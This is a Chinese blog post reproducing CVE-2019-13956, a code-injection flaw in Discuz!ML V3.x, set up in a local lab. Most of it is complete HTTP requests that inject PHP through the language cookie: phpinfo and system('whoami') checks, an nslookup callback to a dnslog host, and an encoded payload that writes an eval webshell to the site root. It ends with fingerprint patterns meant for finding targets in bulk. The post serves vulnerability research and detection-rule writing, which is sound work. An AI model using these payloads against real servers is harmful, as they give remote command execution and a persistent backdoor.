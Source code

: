 ```yaml
---
layout:     post
title:      【复现】Discuz!ML V3.X 代码注入漏洞
subtitle:   远程代码注入漏洞
date:       2019-09-19
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 远程代码注入漏洞
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。

## 0x00 漏洞介绍
* 漏洞名称：Discuz!ML V3.X 代码注入漏洞
* CVE编号：CVE-2019-13956
* 发布时间：2019-06-14
* 漏洞说明：该漏洞存在于请求流量中的cookie参数中的language字段，攻击者能够利用该漏洞在请求流量的cookie字段中（language参数）插入任意代码，最终执行任意代码，从而实现完全远程接管整个服务器的目的。
* 影响范围：Discuz! ML v.3.4、Discuz! ML v.3.3、Discuz! ML v.3.2
* 修复建议：目前官方暂未进行安全更新，使用该CMS的用户可时刻关注官方网站以及代码托管网站获取最新信息


## 0x01 环境搭建
首先去官网下载源码：
[http://discuz.ml/download](http://discuz.ml/download)
下载完成后，解压到WWW目录下，打开phpstudy，访问URL，出现安装界面：
![图片](../../../../img/discuz_ml_rce_1.png)
正确填写数据库信息和管理员信息点击下一步：

![图片](../../../../img/discuz_ml_rce_2.png)

稍等几秒后，出现completed说明安装完成：
![图片](../../../../img/discuz_ml_rce_3.png)



## 0x02 漏洞复现
### Poc验证
我们可以利用phpinfo信息来验证漏洞是否存在：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```
Cookie: u7ip_2132_saltkey=E7E88rBR; u7ip_2132_language=sc'.phpinfo().'; u7ip_2132_lastvisit=1568853333; u7ip_2132_sid=eWnKtK; u7ip_2132_sendmail=1; u7ip_2132_lastact=1568857423%09index.php%09


![图片](../../../../img/discuz_ml_rce_4.png)

我们也可以利用system函数去执行系统命令来验证漏洞是否存在，whoami是Windows/Linux通用命令：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: u7ip_2132_saltkey=E7E88rBR; u7ip_2132_lastvisit=1568853333; u7ip_2132_sid=eWnKtK; u7ip_2132_sendmail=1; u7ip_2132_language=sc%27.system('whoami').%27; u7ip_2132_lastact=1568857490%09index.php%09
```

![图片](../../../../img/discuz_ml_rce_5.png)

但是whoami回显的内容不容易被程序识别，因此我们可以借用DNSLOG平台来验证，考虑到nslookup有些Linux服务器可能没有，也可以使用ping dnslog_server：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```
Cookie: u7ip_2132_saltkey=E7E88rBR; u7ip_2132_lastvisit=1568853333; u7ip_2132_sid=eWnKtK; u7ip_2132_sendmail=1; u7ip_2132_language=sc%27.system('nslookup 4evdeu.dnslog.cn').%27; u7ip_2132_lastact=1568857490%09index.php%09



![图片](../../../../img/discuz_ml_rce_6.png)

### EXP利用
我们可以通过这个漏洞来写webshell，HTTP请求包如下，执行成功会返回正常页面，执行错误会报错，webshell在网站根目录下：
```
GET /discuz/index.php HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: X9O9_2132_saltkey=seXAWPyb; X9O9_2132_language=sc'.file_put_contents%28%27x.php%27%2Curldecode%28%27%253c%253fphp%2520@eval%28%2524_%25%35%30%25%34%66%25%35%33%25%35%34%255b%2522x%2522%255d%29%253b%253f%253e%27%29%29.'; X9O9_2132_lastvisit=1568854995; X9O9_2132_sid=ZUI7iz; X9O9_2132_sendmail=1; sid=abc48gBCCWNz%252FH9NX2yt9UHcyxMQp02Yw80wGxY%252B%252Bqf7oBiEN31WIcrdCg; X9O9_2132_lastact=1568858654%09index.php%09
```

![图片](../../../../img/discuz_ml_rce_7.png)

![图片](../../../../img/discuz_ml_rce_8.png)


## 0x03 Web指纹
想要批量怎么能木有指纹？！
* <meta name\="generator" content\="Discuz! (.*?)" />
* <meta name\="author" content\="Discuz!(.*?)" />
## 0x04 总结

1、一开始在利用漏洞写php webshell的时候，出现了报错，最后是在Github上的利用工具中发现了不报错的EXP，这个项目的地址是[https://github.com/theLSA/discuz-ml-rce/blob/master/dz-ml-rce.py](https://github.com/theLSA/discuz-ml-rce/blob/master/dz-ml-rce.py)，没有这个我估计又得自闭了。
2、在写策略的时候，遇到cookie随机的问题，通过写了一个正则表达式匹配了出来
`[A-Za-z0-9]{4}_[A-Za-z0-9]{4}_language=[A-Za-z]{2}`
